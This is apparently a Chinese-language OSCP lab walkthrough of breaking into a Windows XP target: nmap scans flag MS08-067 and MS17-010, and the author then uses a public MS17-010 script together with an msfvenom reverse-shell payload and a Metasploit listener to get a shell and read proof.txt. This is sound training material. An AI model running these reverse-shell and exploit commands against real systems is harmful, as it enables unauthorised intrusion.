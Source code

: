 ```yaml
---
title: DC系列靶机总结
date: 2021-10-14
swiper: false # 将改文章放入轮播图中
swiperImg: '/medias/1.jpg' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_1.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, 靶机, OSCP]
top: false
---
```




# 10.11.1.5



- ![image-20210710213422936](http://cdn.mxrblog.cn/image-20210710213422936.png)
- 端口扫描

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV 10.11.1.5 --top-ports 10 -A                                                                                                                          1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 01:39 EDT
Nmap scan report for 10.11.1.5
Host is up (0.25s latency).

PORT     STATE  SERVICE       VERSION
21/tcp   closed ftp
22/tcp   closed ssh
23/tcp   closed telnet
25/tcp   closed smtp
80/tcp   closed http
110/tcp  closed pop3
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  closed https
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/10%OT=139%CT=21%CU=34455%PV=Y%DS=2%DC=T%G=Y%TM=60E93
OS:2B3%P=x86_64-pc-linux-gnu)SEQ(SP=85%GCD=1%ISR=9C%TI=I%II=I%SS=S%TS=0)OPS
OS:(O1=M54DNW0NNT00NNS%O2=M54DNW0NNT00NNS%O3=M54DNW0NNT00%O4=M54DNW0NNT00NN
OS:S%O5=M54DNW0NNT00NNS%O6=M54DNNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4=FAF0
OS:%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M54DNW0NNS%CC=N%Q=)T1(R=Y%DF
OS:=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=N%T=80%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=80%IPL=38%UN=0%RIPL
OS:=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: ALICE, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:43:bb (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   252.12 ms 192.168.119.1
2   252.39 ms 10.11.1.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.44 seconds

```



- 漏洞扫描

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap  10.11.1.5 --script vuln                                                                                                                                 1 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 02:16 EDT
Nmap scan report for 10.11.1.5
Host is up (0.25s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1025/tcp open  NFS-or-IIS

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 80.87 seconds
```

- 查找漏洞ms08-067

![image-20210710155841195](http://cdn.mxrblog.cn/image-20210710155841195.png)

![image-20210710155854455](http://cdn.mxrblog.cn/image-20210710155854455.png)

- 查找漏洞ms17-010

![image-20210710161114009](http://cdn.mxrblog.cn/image-20210710161114009.png)

- 使用漏洞ms7-010,但是发现无法通过msf对ms17-010进行漏洞利用

![image-20210722041024649](http://cdn.mxrblog.cn/image-20210722041024649.png)

- 同样的也无法通过msf对ms08-067进行漏洞利用
- 既然存在漏洞,可以使用网上的脚本文件对漏洞进行利用,我使用的是ms17-010的Python脚本,原理是通过发送exe文件到靶机上,然后在攻击机器上打开监听端口获取shell
- 使用的脚本我已经fork到自己的github仓库中,[下载链接](https://github.com/mxrmiss/MS17-010)  ,需要下载mysmb.py, send_and_execute.py, 需要使用python2, 使用pip2安装impacket模块

![image-20210722042343394](http://cdn.mxrblog.cn/image-20210722042343394.png)



```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o msf17-010.exe

```

![image-20210722043820126](http://cdn.mxrblog.cn/image-20210722043820126.png)

- 使用 exploit/multi/handler 模块,加载反向shell注意要与前面生成exe文件的反向shell一致,否则监听不到信息

![image-20210722044132037](http://cdn.mxrblog.cn/image-20210722044132037.png)

- 执行send_and_execute.py脚本

```
python send_and_execute.py 10.11.1.5 msf17-010.exe
```

- 监听

![image-20210722044740040](http://cdn.mxrblog.cn/image-20210722044740040.png)

- 寻找proof.txt, 注意在C:\下查找

![image-20210722045721681](http://cdn.mxrblog.cn/image-20210722045721681.png)

![image-20210722045833818](http://cdn.mxrblog.cn/image-20210722045833818.png)

